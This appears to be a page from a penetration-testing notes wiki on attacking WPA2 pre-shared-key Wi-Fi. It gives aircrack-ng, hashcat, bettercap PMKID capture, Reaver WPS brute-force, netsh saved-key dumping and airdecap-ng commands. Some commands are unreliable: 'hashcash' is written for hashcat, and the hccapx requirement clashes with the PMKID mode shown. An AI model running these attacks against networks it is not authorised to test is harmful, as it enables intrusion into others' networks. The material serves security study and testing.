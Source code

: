 # Attacking WPA2 Pre-Shared Key Networks

### Dictionary-Based Attacks

**Cowpatty** - Audits WPA2-PSK for weak PSK

* Slow/time consuming

![](<../../../.gitbook/assets/image (36) (1).png>)

**aircrack-ng** (wpa/wpa2 psk dictionary attack)

```
aircrack-ng -w <wordlist> <pcap filename>
```

![](<../../../.gitbook/assets/image (59) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (64).png>)

**Hashcat**

*   Requires hccapx file

    * Generated with **cap2hccapx**

    ```
    hashcash -m 16800 -a3 -w3 handshakes.pmkid '?d?d?d?d?d?d?d'
    ```

    ###

#### Hashcat Mask Attack

* Brute force a custom range of PSK values
* Can mix and match static values with brute force character set values
* Default MiFi Password : 8 Hex characters
  * 232 or 168 = 4.2 billion entries / about 90 minutes at 90K PSK/second

![](<../../../.gitbook/assets/image (43) (1) (1) (1).png>)

### PMKID Attack

![](<../../../.gitbook/assets/image (53) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (42) (1).png>)

```
sudo bettercap -iface wlan0

wlan0 >> wifi.recon on
wlan0 >> wifi.show

wlan0 >> wifi.assoc all

//convert pcap
hcxpcaptool -z handshakes.pmkid handshakes.pcap

//crack pmkid
hashcash -m 16800 -a3 -w3 handshakes.pmkid '?d?d?d?d?d?d?d'
```

### WPS PIN Attack

BruteForce

* WPS check the first 4 bytes, if the first part is wrong, the PIN is rejected.
* Doesn't require capturing pairing session or any interaction with AP
* Last byte is a checksum
  * 11,000 total WPS PINs

Active attack Tool **: Reaver**

```
reaver -i mon0 -b <BSSID MAC> -vv
```

Detecting WPS

* Wireshark filter: **wps.wifi**_**protected**_**setup\_state eq 0x02**

Passive Attack Tool**:** [**reaver-wps-fork-t6x**](https://github.com/t6x/reaver-wps-fork-t6x)****

* Observes DH exchange data
* &#x20;**https://github.com/t6x/reaver-wps-fork-t6x**&#x20;
* Outputs data to be used in **pixiewps (**[**https://github.com/wiire-a/pixiewps**](https://github.com/wiire-a/pixiewps)**)**

### Dump PNL pre-shared key

```
netsh wlan show profiles name='Profile Name' key=clear
```

### Decrypt WPA2 traffic dump

* Capture needs to include 4-way handshake
* You must also know the:
  * pre-shared key
  * SSID
  * this is because the PTK must be generated since it is different for each client

```
airdecap-ng -p <pre-shared key> -e <SSID> <packetdump>.dump
```

### KRACK attack (Key re-installation attack)

{% embed url="https://www.krackattacks.com" %}

* Captures and replaying step 3

### KR00K Attack

* r00kie-kr00kie.py - Automated Kr00k attack or examination of pcap files to see if we ever captured the necessary material for a Kr00k attack.

![](<../../../.gitbook/assets/image (49) (1) (1).png>)

![](<../../../.gitbook/assets/image (74) (1).png>)

![](<../../../.gitbook/assets/image (72) (1).png>)

{% embed url="https://www.welivesecurity.com/wp-content/uploads/2020/02/ESET_Kr00k.pdf" %}

